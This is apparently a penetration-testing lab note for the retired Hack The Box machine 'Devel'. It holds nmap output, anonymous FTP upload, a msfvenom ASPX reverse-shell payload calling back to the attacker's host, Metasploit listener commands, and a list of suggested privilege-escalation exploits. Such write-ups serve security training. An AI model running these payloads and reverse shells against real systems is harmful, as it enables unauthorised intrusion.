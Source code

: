 Type: #windows 
Level: #easy 
Link: <https://app.hackthebox.eu/machines/Devel>
Tags : #TCM
Tools: [[]] [[]] [[]]	

## Pentesting of retired HTB VM Devel
### Following walkthrougt of TCM on udemy

Info on the VM : Windows with IP 10.10.10.5

First let's do a classic nmap scan  
`sudo nmap -A -T4 -p- 10.10.10.5`

Result :
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-13 08:08 EDT
Nmap scan report for 10.10.10.5
Host is up (0.042s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   45.42 ms 10.10.14.1
2   44.70 ms 10.10.10.5

```

First enumeration :

Open ports : `21 80`

Anonymous login seems allowed and there's might be a website on :80.

Port 80 :

Standard default IIS page, indicating the use of `IIS7`

Port 21 :

Anonymous access is working and i can upload

By using a msfvenoom payload I can try to get a reverse shell :

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f aspx > ex.aspx`

Once the payload is generated I can use metasploit to start a reverse listening and then put the payload via FTP on the server and access it by web connection.

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.14.5
run
```

Now on the FTP connection :

`put ex.aspx`

Then go to 10.10.10.5/ex.aspx

![[Pasted image 20210513144847.png]]

We're in !

Sadly we're not admin :

```
meterpreter > getuid
Server username: IIS APPPOOL\Web
```

Time for some priv esc !

We can use a post exploi suggester from metasploit :

First we put the actual session in background :

`meterpreter > background`

Then we use suggester 

`use post/multi/recon/local_exploit_suggester`

We set it to session 1 and run it :

```
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 37 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```

